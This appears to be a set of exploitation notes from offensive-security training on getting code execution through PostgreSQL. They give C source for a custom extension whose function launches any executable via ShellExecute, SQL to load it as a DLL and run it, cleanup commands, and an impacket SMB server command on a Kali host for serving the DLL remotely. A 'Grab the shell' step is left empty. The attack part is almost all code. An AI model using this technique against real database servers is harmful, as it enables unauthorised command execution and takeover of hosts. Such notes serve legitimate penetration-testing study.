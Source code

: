 ```C
#include "postgres.h"
#include <string.h>
#include "fmgr.h"
#include "utils/geo_decls.h"
#include <stdio.h>
#include "utils/builtins.h"

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif
 
/* Add a prototype marked PGDLLEXPORT */
PGDLLEXPORT Datum awae(PG_FUNCTION_ARGS);
PG_FUNCTION_INFO_V1(awae);
 
/* this function launches the executable passed in as the first parameter
in a FOR loop bound by the second parameter that is also passed*/
Datum
awae(PG_FUNCTION_ARGS)
{
 	/* convert text pointer to C string */
#define GET_STR(textp) DatumGetCString(DirectFunctionCall1(textout, PointerGetDatum(textp)))

/* retrieve the second argument that is passed to the function (an integer)
that will serve as our counter limit*/
int instances = PG_GETARG_INT32(1);

for (int c = 0; c < instances; c++) {
/*launch the process passed in the first parameter*/
ShellExecute(NULL, "open", GET_STR(PG_GETARG_TEXT_P(0)), NULL, NULL, 1);}
PG_RETURN_VOID();
}
```
* The `awae` function will launch an arbitrary process using the windows native `ShellExecute` function in a loop that is bound by the second argument
* This can be built into a dll.
#### Test the extension
* Need to create a UDF called test 
```PSQL
CREATE OR REPLACE FUNCTION test(text) RETURNS void AS 'FILENAME', 'test' LANGUAGE 'C' STRICT;
```
```
```PSQL
create or replace function test(text, integer) returns void as $$C:\awae.dll$$, $$awae$$ language C strict;
SELECT test($$calc.exe$$, 3);
```
If something goes wrong and you wish to unload the extension
```Cmd
net stop "Applications Manager"
del c:\awae.dll
net start "Applications Manager"
```
Drop the function 
```PSQL
DROP FUNCTION test(text, integer);
```
#### Host the extension somewhere else
```Shell
mkdir /home/kali/awae
sudo impacket-smbserver awae /home/kali/awae/
```
* Grab the shell
```PSQL
```